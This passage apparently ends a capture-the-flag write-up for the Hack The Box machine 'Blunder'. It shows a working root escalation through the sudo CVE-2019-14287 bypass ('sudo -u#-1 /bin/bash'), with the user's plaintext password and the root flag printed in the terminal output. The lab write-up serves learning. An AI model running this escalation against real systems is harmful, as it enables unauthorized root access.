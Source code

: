 We list our `sudo` privileges and found that we can run `/bin/bash` as every
user except `root`. This a ["recent" sudo vulnerability](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)
and we just need to use the `-u#-1` parameter to get a `root` shell and get the flag.

    :::text
    hugo@blunder:~$ sudo -l
    sudo -l
    Password: Password120

    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash

    hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ sudo -u#-1 /bin/bash
    sudo -u#-1 /bin/bash
    Password: Password120

    root@blunder:/# cd /root/
    cd /root/
    root@blunder:/root# cat root.txt
    cat root.txt
    01efa72b77e36192eda3c5a08a9ba4a8

# Wrapping up

For an easy box this was easy. I was wondering when the `sudo` vulnerability
will appear on HTB.

